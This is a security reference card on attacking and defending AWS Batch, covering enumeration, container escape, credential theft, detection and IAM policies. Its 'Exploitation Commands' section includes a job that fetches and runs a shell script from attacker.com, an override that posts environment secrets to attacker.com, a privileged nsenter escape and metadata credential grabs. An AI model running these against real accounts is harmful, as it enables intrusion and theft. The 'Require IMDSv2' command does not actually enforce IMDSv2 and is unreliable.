

#  AWS Batch Security



> **Category**: COMPUTE

AWS Batch enables batch computing workloads on AWS. It dynamically provisions compute resources and runs containerized jobs. Attackers target job definitions, compute environments, and container escape vectors.

## Quick Stats

| Risk Level | Compute Types | Job Execution | Per Job |
| --- | --- | --- | --- |
| **HIGH** | **EC2/Fargate** | **Container** | **IAM Role** |

## Service Overview

### Compute Environments

Managed or unmanaged compute environments using EC2 or Fargate. Managed environments auto-scale instances based on job queue demand. Unmanaged environments use your own EC2 instances.

> Attack note: Compute environment IAM roles often have excessive permissions for instance management

### Job Definitions & Queues

Job definitions specify container images, commands, IAM roles, and resource requirements. Job queues route jobs to compute environments with scheduling priority.

> Attack note: Job definitions can be modified to inject malicious containers or steal credentials

## Security Risk Assessment

`████████░░` **7.5/10** (HIGH)

AWS Batch presents significant risk due to container execution with IAM roles, potential for container escape, and job definition manipulation. Compromised jobs can access instance metadata and steal credentials.

## ⚔️ Attack Vectors

### Job Definition Manipulation

- Register malicious job definitions
- Modify container image to backdoored version
- Inject commands via containerOverrides
- Add environment variables to exfiltrate secrets
- Mount sensitive host paths into container

### Credential Theft

- Access IMDS from running containers
- Steal job execution role credentials
- Extract ECS task credentials endpoint
- Harvest secrets from environment variables
- Access shared storage with sensitive data

## ⚠️ Misconfigurations

### Job Definition Issues

- Privileged containers enabled
- Host network mode allowing IMDS access
- Overly permissive job execution roles
- Secrets in environment variables
- Writable host volume mounts

### Compute Environment Issues

- Instance role with admin permissions
- Public subnets for compute instances
- No encryption for EBS volumes
- SSH keys on managed instances
- Security groups too permissive

## 🔍 Enumeration

**List Compute Environments**
```bash
aws batch describe-compute-environments
```

**List Job Queues**
```bash
aws batch describe-job-queues
```

**List Job Definitions**
```bash
aws batch describe-job-definitions --status ACTIVE
```

**List Running Jobs**
```bash
aws batch list-jobs \\
  --job-queue my-queue \\
  --job-status RUNNING
```

**Describe Specific Job**
```bash
aws batch describe-jobs --jobs job-id-123
```

## 🚀 Container Escape

### Escape Techniques

- Privileged container kernel exploits
- Docker socket mount exploitation
- Host PID namespace attacks
- Capabilities abuse (CAP_SYS_ADMIN)
- cgroups escape via release_agent

### Post-Escape Actions

- Access host instance metadata
- Pivot to other containers on host
- Modify instance configuration
- Install persistence mechanisms
- Access EBS volumes directly

> **Critical:** Privileged containers or host mounts enable full host compromise and credential theft.

## 💉 Job Injection

### Attack Scenarios

- Submit jobs with malicious commands
- Override container commands at runtime
- Inject reverse shell payloads
- Exfiltrate data via job output
- Chain jobs for persistent access

### Impact

- Code execution in target environment
- Access to job execution role permissions
- Data exfiltration via network/storage
- Resource hijacking (cryptomining)
- Lateral movement to connected services

## 🛡️ Detection

### CloudTrail Events

- RegisterJobDefinition - new definition created
- SubmitJob - job submitted
- UpdateComputeEnvironment - env modified
- CreateComputeEnvironment - new env created
- DeregisterJobDefinition - definition removed

### Indicators of Compromise

- Unknown container images in job defs
- Jobs with privileged mode enabled
- Unusual job submission patterns
- Jobs accessing sensitive S3 paths
- Container override commands injected

## Exploitation Commands

**Register Malicious Job Definition**
```bash
aws batch register-job-definition \\
  --job-definition-name backdoor-job \\
  --type container \\
  --container-properties '{
    "image": "attacker/malicious:latest",
    "vcpus": 1,
    "memory": 512,
    "command": ["sh", "-c", "curl http://attacker.com/shell.sh | sh"],
    "jobRoleArn": "arn:aws:iam::123456789012:role/BatchJobRole"
  }'
```

**Submit Job with Command Override**
```bash
aws batch submit-job \\
  --job-name exfil-job \\
  --job-queue production-queue \\
  --job-definition legit-job-def \\
  --container-overrides '{
    "command": ["sh", "-c", "env | curl -X POST -d @- http://attacker.com/collect"]
  }'
```

**Submit Privileged Job**
```bash
aws batch register-job-definition \\
  --job-definition-name priv-escape \\
  --type container \\
  --container-properties '{
    "image": "alpine",
    "vcpus": 1,
    "memory": 512,
    "privileged": true,
    "command": ["sh", "-c", "nsenter -t 1 -m -u -i -n sh"]
  }'
```

**Access IMDS from Job Container**
```bash
# Inside running Batch container
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

**Extract ECS Task Credentials**
```bash
# Inside Fargate Batch container
curl $AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
# Returns temporary credentials for task role
```

**List and Describe All Job Definitions**
```bash
aws batch describe-job-definitions \\
  --status ACTIVE \\
  --query 'jobDefinitions[*].[jobDefinitionName,containerProperties.image,containerProperties.jobRoleArn]' \\
  --output table
```

## Policy Examples

### ❌ Dangerous - Overpermissive Job Role

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "s3:*",
      "secretsmanager:GetSecretValue",
      "iam:PassRole"
    ],
    "Resource": "*"
  }]
}
```

*Job role with wildcard permissions allows data theft and privilege escalation*

### ✅ Secure - Least Privilege Job Role

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["s3:GetObject", "s3:PutObject"],
    "Resource": "arn:aws:s3:::batch-data-bucket/jobs/*"
  }]
}
```

*Job role restricted to specific bucket path needed for processing*

### ❌ Dangerous - Unrestricted Batch Submission

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "batch:SubmitJob",
      "batch:RegisterJobDefinition"
    ],
    "Resource": "*"
  }]
}
```

*Allows submitting jobs to any queue with any definition - potential code execution*

### ✅ Secure - Restricted Batch Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["batch:SubmitJob"],
    "Resource": [
      "arn:aws:batch:us-east-1:123456789012:job-queue/approved-queue",
      "arn:aws:batch:us-east-1:123456789012:job-definition/approved-job:*"
    ]
  }]
}
```

*Can only submit jobs to specific queue using approved job definition*

## Defense Recommendations

### 🔐 Disable Privileged Containers

Never allow privileged mode in job definitions. Use SCP to deny.

```bash
# SCP to deny privileged containers
{
  "Effect": "Deny",
  "Action": "batch:RegisterJobDefinition",
  "Resource": "*",
  "Condition": {
    "Bool": {"batch:Privileged": "true"}
  }
}
```

### 🚫 Require IMDSv2

Configure compute environments to require IMDSv2, preventing simple credential theft.

```bash
aws batch update-compute-environment \\
  --compute-environment prod-env \\
  --compute-resources 'ec2Configuration=[{imageIdOverride=ami-xxx}]'
```

### 🔒 Use Fargate for Isolation

Fargate provides better isolation than EC2 compute environments.

### 📝 Restrict Job Definition Registration

Limit who can register job definitions using IAM policies.

### 🔑 Use Secrets Manager

Never put secrets in environment variables. Use AWS Secrets Manager with job role access.

```bash
# In job container
aws secretsmanager get-secret-value \\
  --secret-id prod/db-creds
```

### 📊 Monitor Job Submissions

Alert on jobs with unusual images, commands, or from unexpected principals.

---

*AWS Batch Security Card*

*Always obtain proper authorization before testing*
